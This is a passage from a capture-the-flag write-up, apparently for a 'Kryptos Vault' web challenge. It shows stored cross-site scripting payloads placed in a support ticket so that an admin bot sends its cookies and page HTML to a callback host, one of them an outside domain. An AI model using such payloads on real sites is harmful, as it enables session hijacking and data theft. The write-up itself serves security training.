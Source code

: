 ```html
<script> 
fetch('ip_callback/q?=' + document.cookie) 
</script>
```

After using the cookies the page didn't get the flag nor redirect to the logged-in dashboard.

![](kryptos-6.png)

After that our attempt is to get the source code HTML that the bot has.

```html
<script> 
fetch('ip_callback/q?=' + encodeURI(document.body.outerHTML)) 
</script>
```

![](kryptos-7.png)

Decoded result
```html
<body>
        <nav class="nav-bar">
            <ul>
                <li>
                    <a href="/settings">Settings</a>
                </li>
            </ul>
        </nav>
        <nav class="logged-bar">
           <ul>
               <li>
                   logged in as (), <a href="/logout">logout</a>
               </li>
           </ul>
       </nav>
      <div class="container on">
         <div class="screen">
            <h3 class="title">
               Kryptos Vault Support tickets
            </h3>
            <div class="message-container">
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-18 17:39:15</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p><script> 
fetch('http://x.nyxmare.co:1234/q?='   encodeURI(document.body.outerHTML)) 
</script></p></div></div></div></div></div></body>
```

We could see the new endpoint `/settings`
